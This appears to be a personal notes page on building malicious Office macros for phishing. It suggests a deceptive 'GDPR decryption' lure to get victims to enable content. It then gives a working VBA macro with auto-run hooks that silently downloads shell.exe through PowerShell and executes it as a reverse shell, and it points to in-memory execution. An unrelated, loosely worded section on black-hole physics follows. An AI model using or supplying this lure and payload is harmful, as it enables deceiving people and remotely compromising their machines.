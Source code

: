 # Macros for Advanced Phishing

You can perform advance stuff via macro by literally having a lot convincing stuff to make sure user enables the Macro. For instance you can initially save the word with say base64 text saying that, hey we have encrypted this for enhanced protection for GDPR rules. Please allow Enable Content for decrpytion and then moment victim click we can have a very convinving text right in front of him so that by the time he reads our Macro would have done its thing!

## Some Macro coding

1. Start of Macro method
```macro
Sub MacroName()
'
' Comments here
'
End Sub
```
2. To declare variables use Dim as the intializer and then use the variable name followed by its dataype.
Eg:
```vba
Dim variable as String
Dim variable as Long
Dim variable as LongPtr
```
LongPtr is a pointer to memory.

3. If and foor loops

IF statement
```macro
If (condition) Then
	<Do smthg>
Else
	<Do smthg>
End If
```

For Loops
```macro
For counter = 1 To 2
	<Do smthg>
Next counter
```

You can typically execute macro using VBA or WSH(Windows Script Host). For instance below macro would download executable to reverse shell moment Content is enabled.
```macro
Sub Document_Open()
	Macro
End Sub

Sub Auto_Open()
	Macro
End Sub

Sub Macro()
	Dim shell as String
	shell = "powershell (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/shell.exe','shell.exe')"
	Shell shell, vbhide
	
	Dim shell_path as String
	shell_path = ActiveDocument.Path + "\shell.exe"

	Shell shell_path, vbhide
End 
```
Now this would actually save the stuff to disk. But a enhanced version can also be used to execute in memory using `VirtualAlloc`.

## Some Physics Facts :)
- Gravitational time diallation causes time to move faster where is less gravity and time moves slower where there is more gravity. So typically near the event horizon of back hole time goes **STILL** since the gravity is almost infinte.
- Singularity in black hole is a infinite small and infinite dense spot where time goes STILL and laws of physics no loger apply.

Refer [this](https://www.nationalgeographic.com/science/article/black-holes)
